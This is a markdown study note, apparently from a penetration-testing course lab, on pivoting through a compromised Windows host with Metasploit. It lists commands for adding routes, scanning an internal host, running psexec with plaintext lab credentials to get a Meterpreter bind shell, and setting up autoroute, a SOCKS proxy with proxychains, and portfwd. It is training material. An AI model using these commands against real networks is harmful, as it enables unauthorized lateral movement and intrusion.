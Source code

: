 ### Pivoting with Metasploit

- Example:
		- As in the previous sections, we'll connect to the bind shell on port 4444 on the machine ITWK01. Let's assume we are currently gathering information on the target. In this step, we'll identify a second network interface.
	- `ipconfig`
	- Listing 74 shows that the second interface has the assigned IP 172.16.5.199.
	- Get meterpreter shell with **met.exe**
	- `bg`
	- **route add**
		- To add a route to a network reachable through a compromised host
		- ```route add 172.16.5.0/24 12```
		- route add $ip $session
	- **route print**
	- scan ports
		- ```use auxiliary/scanner/portscan/tcp ```
		- ```set RHOSTS 172.16.5.200```
		- ```set PORTS 445,3389```
		- `run`
	- SMB & RDP ports found
	- Attempt to use *psexec*
		- username is luiza
		- password is _BoccieDearAeroMeow1!_.
	- Let's use _exploit/windows/smb/psexec_ and set **SMBUser** to **luiza**, **SMBPass** to **BoccieDearAeroMeow1!**, and **RHOSTS** to **172.16.5.200**.
	- [It's important to note that the added route will only work with established connections. Because of this, the new shell on the target must be a bind shell such as _windows/x64/meterpreter/bind_tcp_, thus allowing us to use the set route to connect to it. A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network.]
		- ```use exploit/windows/smb/psexec ```
		- ```set SMBUser luiza```
		- ```set SMBPass "BoccieDearAeroMeow1!"```
		- ```set RHOSTS 172.16.5.200```
		- ```set payload windows/x64/meterpreter/bind_tcp```
		- `set LPORT 8000`
		- `run`
	- **route flush**
		- removes manual routes
	- **autoroute** module
		- set up pivot routes through an existing Meterpreter session automatically
		- ```use multi/manage/autoroute```
		- `show options`
		- `sessions -l`
		- `set session 12`
		- `run`
	- **server/socks_proxy** auxiliary module to configure a SOCKS proxy
		- pivot on port 1080 by default
		- ```use auxiliary/server/socks_proxy```
		- `show options`
		- ```set SRVHOST 127.0.0.1```
		- `set VERSION 5`
		- `run -j`
		- update *proxychains* config file
			- ```socks5 127.0.0.1 1080```
		- ```sudo proxychains xfreerdp /v:172.16.97.200 /u:luiza```
	- use a similar technique for port forwarding using the **portfwd** command from inside a Meterpreter session, which will forward a specific port to the internal network.
		- `sessions -i 12`
		- `portfwd -h`
	- We can create a port forward from localhost port 3389 to port 3389 on the target host (172.16.5.200)